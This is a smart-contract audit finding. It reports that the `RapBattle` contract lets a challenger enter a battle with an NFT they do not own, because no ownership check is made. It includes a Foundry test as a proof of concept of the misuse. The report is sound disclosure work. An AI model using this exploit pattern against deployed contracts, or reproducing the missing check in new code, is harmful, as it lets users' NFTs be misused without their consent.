 ## Summary

`RapBattle:goOnStageOrBattle()` allows anyone to use an NFT they do not own to become the challenger.

## Vulnerability Details

The vulnerability is caused by the fact that both `RapBattle::goOnStageOrBattle()` and `RapBattle::_battle()` do not require the challenger to prove he's actually the owner of the NFT with `tokenId` passed as a parameter.

This way, anyone can use an NFT they do not own (maybe with an higher stats compared to their) to become the challenger.

## Impact

Anyone can falsely use another user's NFT to become the challenger.

## Tools Used

- Manual Review

Add the following test to demonstrate the issue:

```js

function _mintAndStakeRapper(address _user, uint256 _stakingDays) public returns(uint256 mintedTokenId) {
        vm.startPrank(_user);
        mintedTokenId = oneShot.getNextTokenId(); 
        oneShot.mintRapper();
        assert(oneShot.ownerOf(mintedTokenId) == _user);
        oneShot.approve(address(streets), mintedTokenId);
        streets.stake(mintedTokenId);
        vm.warp(block.timestamp + (_stakingDays * 1 days) + 1 seconds);
        streets.unstake(mintedTokenId);
        vm.stopPrank();
    }

function test_challengerCanBeNonOwner() public {
        address user1 = makeAddr("user1");
        
        uint256 defenderNft = _mintAndStakeRapper(user, 2);
        uint256 user1Nft = _mintAndStakeRapper(user1, 2);
        uint256 challengerNft = _mintAndStakeRapper(challenger, 2);

        vm.startPrank(user);
        oneShot.approve(address(rapBattle), defenderNft);
        cred.approve(address(rapBattle), 2);
        rapBattle.goOnStageOrBattle(defenderNft, 2);
        vm.stopPrank();

        // challenger do not own user1Nft
        assert(oneShot.ownerOf(user1Nft) != challenger);

        vm.prank(challenger);
        rapBattle.goOnStageOrBattle(user1Nft, 2);
    }
```
